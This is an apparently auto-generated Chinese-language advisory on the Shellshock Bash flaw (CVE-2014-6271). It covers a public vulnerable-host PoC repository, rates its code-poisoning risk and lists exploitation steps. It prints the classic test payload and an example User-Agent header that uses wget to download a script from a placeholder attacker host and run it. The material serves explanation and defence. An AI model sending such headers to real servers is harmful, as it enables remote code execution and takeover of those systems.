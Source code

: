 ## CVE-2014-6271-Shellshock

**漏洞编号:** CVE-2014-6271

**漏洞类型:** 远程代码执行

**影响应用:** GNU Bash

**危害等级:** 高危，可能导致远程代码执行和系统控制

**影响版本:** <= 4.3

**利用条件:** 目标系统使用存在漏洞的Bash版本，并且通过CGI或其他方式允许环境变量注入。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2014-6271，又名Shellshock，是一个存在于 GNU Bash 中的严重漏洞。该漏洞允许攻击者通过特制的包含函数定义的字符串，在环境变量中注入并执行任意代码。

**有效性：**
提供的 Dockerfile 和相关 CGI 脚本构成了一个有效的 PoC 环境。Dockerfile 设置了一个基于 `vulhub/bash:4.3.0-with-httpd` 镜像的容器，该镜像包含一个易受攻击的 Bash 版本和一个 HTTP 服务器。`victim.cgi` 脚本旨在通过 CGI 执行 Bash 代码，但脚本本身的代码是无害的。漏洞利用的关键在于攻击者如何构造 HTTP 请求，将恶意代码注入到传递给 `victim.cgi` 脚本的环境变量中。如果服务器配置允许，则可以远程利用此漏洞执行任意命令。

**投毒风险：**
在提供的代码片段中，直接的代码投毒风险较低（约为 10%），主要原因是:
* `safe.cgi` 和 `victim.cgi` 文件中的 bash 代码非常简单，只输出“Hello world”，功能正常。没有发现任何恶意代码。  
*  Dockerfile指令中的 `RUN chmod +x /var/www/html/safe.cgi` 和 `RUN chmod +x /var/www/html/victim.cgi` 功能正常，没有发现任何恶意代码。

但是，需要注意以下几点潜在风险：
* **基础镜像风险：** PoC 依赖于 `vulhub/bash:4.3.0-with-httpd` 镜像。虽然该镜像旨在提供一个易受攻击的环境，但仍然需要确保该镜像本身没有被篡改或包含恶意代码。评估基础镜像的来源和可信度至关重要。
* **服务器配置风险：** 漏洞的利用依赖于 Web 服务器（如 Apache）如何处理 CGI 请求以及环境变量。如果服务器配置不当，可能会进一步加剧漏洞的风险。例如，某些配置可能允许攻击者覆盖更多的环境变量，从而扩大攻击面。
* **供应链攻击风险：** 攻击者可能通过污染开发者的环境或者代码仓库来插入恶意代码。

总体来说，直接代码投毒的风险较低，但基础镜像和服务器配置的安全性仍然需要谨慎评估。

**利用方式：**
1.  **目标环境：** 目标系统需要运行一个存在漏洞的 Bash 版本（<= 4.3）。
2.  **攻击入口：** 攻击通常通过 CGI 脚本或其他接受环境变量的 Web 应用入口进行。
3.  **注入恶意代码：** 攻击者构造一个包含恶意代码的环境变量。典型的 Shellshock payload 如下：`() { :; }; echo vulnerable`。这个 payload 利用了 Bash 在处理函数定义后剩余字符串的方式，`echo vulnerable` 会被执行。
4.  **触发漏洞：** 当 Bash 执行 CGI 脚本或处理包含恶意环境变量的请求时，漏洞被触发，攻击者注入的代码被执行。
5.  **远程代码执行：** 一旦漏洞被触发，攻击者就可以在目标系统上执行任意命令，例如获取敏感信息、修改系统配置或安装恶意软件。

**举例说明：**
攻击者可以构造一个 HTTP 请求头，例如 `User-Agent: () { :; }; /usr/bin/wget http://attacker.com/evil.sh -O /tmp/evil.sh; sh /tmp/evil.sh`。当 Web 服务器调用 Bash 处理该请求时，`wget` 命令会被执行，从 `attacker.com` 下载恶意脚本并在目标系统上执行。

**项目地址:** [anujbhan/shellshock-victim-host](https://github.com/anujbhan/shellshock-victim-host)

**漏洞详情:** [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)